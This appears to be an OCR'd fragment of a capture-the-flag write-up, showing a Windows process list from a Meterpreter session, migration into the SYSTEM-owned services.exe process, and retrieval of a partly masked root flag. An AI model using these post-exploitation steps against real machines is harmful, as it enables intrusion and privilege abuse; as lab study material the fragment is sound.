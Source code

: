 ```bash

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 528   520   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 576   568   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 584   520   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 612   568   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 672   584   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 680   584   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 688   584   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
```
`NT AUTHORITY\SYSTEM`           `C:\Windows\System32\services.exe`

```bash
meterpreter > migrate 672
[*] Migrating from 2276 to 672...
[*] Migration completed successfully.
meterpreter > search -f root.txt
Found 1 result...
    c:\Windows\System32\config\root.txt (70 bytes)
```
### Root flag
```bash
meterpreter > cat root.txt
��dff0f74xxxxxxxxxxxxxxxxxxxx46b4a
```
